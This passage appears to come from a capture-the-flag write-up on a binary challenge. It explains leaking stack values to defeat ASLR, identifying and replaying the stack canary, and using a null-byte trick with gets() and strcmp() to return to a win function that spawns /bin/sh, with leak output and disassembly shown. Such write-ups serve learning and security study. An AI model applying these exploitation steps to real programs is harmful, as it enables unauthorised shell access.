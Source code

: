 Which returns the following output:

```
[...snip...]
[*] 38: b'(nil)'
[*] 39: b'0xe2e2c9f78238ba00'
[*] 40: b'0x7ffc6961d070'
[*] 41: b'0x5643c8c8cdc5'
[*] 42: b'0x7ffc6961d158'
[...snip...]
```

The address in slot `41` is the return address of the `welcome()` call.
This means we can get the base address by subtracting `0xdc5`:

```
0000000000000d8e <main>:
 d8e:   55                      push   %rbp
 d8f:   48 89 e5                mov    %rsp,%rbp
 d92:   48 83 ec 10             sub    $0x10,%rsp
 d96:   89 7d fc                mov    %edi,-0x4(%rbp)
 d99:   48 89 75 f0             mov    %rsi,-0x10(%rbp)
 d9d:   b8 00 00 00 00          mov    $0x0,%eax
 da2:   e8 93 fc ff ff          callq  a3a <ignore_me_init_buffering>
 da7:   b8 00 00 00 00          mov    $0x0,%eax
 dac:   e8 19 fd ff ff          callq  aca <ignore_me_init_signal>
 db1:   b8 00 00 00 00          mov    $0x0,%eax
 db6:   e8 10 fe ff ff          callq  bcb <check_password_stage1>
 dbb:   b8 00 00 00 00          mov    $0x0,%eax
 dc0:   e8 b1 fe ff ff          callq  c76 <welcome>
 dc5:   b8 00 00 00 00          mov    $0x0,%eax
 dca:   e8 30 ff ff ff          callq  cff <AAAAAAAA>
 dcf:   90                      nop
 dd0:   c9                      leaveq 
 dd1:   c3                      retq   
 dd2:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
 dd9:   00 00 00 
 ddc:   0f 1f 40 00             nopl   0x0(%rax)
```

### 3.3 Bypassing the stack canary

As we are able to leak the whole stack bypassing the `canary` becomes trivial.
We know the return address is at offset `41`, meaning the `canary` must be at
offset `39` as the `%rbp` register is saved between them. Now we can just
replay it and there will be no problem with our exploit. We can also confirm
this to be the `canary` as the lower byte is `\0`, which is always the case for
the `stack canary`.

### 3.4 Executing /bin/sh

After bypassing `ASLR` and the `stack canary` executing `/bin/sh` becomes
trivial, as we just need to return to the `WINgardium_leviosa()` function. In
order to do so we still have to pass the `strcmp()`, but lucky for us `gets()`
does not care about null-bytes, whereas `strcmp()` only compares strings until
a null-byte is encountered. Thus we simply have to prepend out exploit with
`Expelliarmus\0`.
